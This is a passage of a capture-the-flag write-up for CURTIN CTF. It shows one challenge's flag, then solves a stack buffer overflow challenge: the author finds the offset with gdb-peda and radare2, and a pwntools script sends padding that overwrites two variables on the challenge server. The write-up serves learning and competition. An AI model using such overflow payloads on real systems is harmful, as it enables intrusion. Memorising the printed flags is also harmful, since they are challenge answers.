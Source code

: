![89](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image089.png)

```
FLAG: CURTIN_CTF{N0_S33D_N0_R4ND0M}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Don't go overboard

(Author: OS1RIS)

![90](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image090.png)

![91](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image091.png)

While reading the code. Noticed that the condition to display the flag is flags=’5’, and secured=’0’.
But for now we just need to find the Buffer. Sure we can use math which is buffer [48] – [16] = [32]. But we can try using gdb-peda to find the buffer offset.

![92](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image092.png)

![93](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image093.png)

Running the code inside radare2. Paste the pattern and then lookup for RBP 0x61414

![94](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image094.png)

Now we can confirm that the buffer offset is at 32.

![95](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image095.png)

For the code, the number will buffer for 30 times and 31,32 places will send the “0” and “5”
Try running it.

```
from pwn import *
context.bits=64
p=remote('3.26.44.175',3334)
overwrite=(b"0"*30)+b"05"
p.sendline(overwrite)
p.interactive()
```

![96](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image096.png)

```
Flag: CURTIN_CTF{T@RG3TT3D_0V3RF10W}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Don't go overboard 2

(Author: OS1RIS)
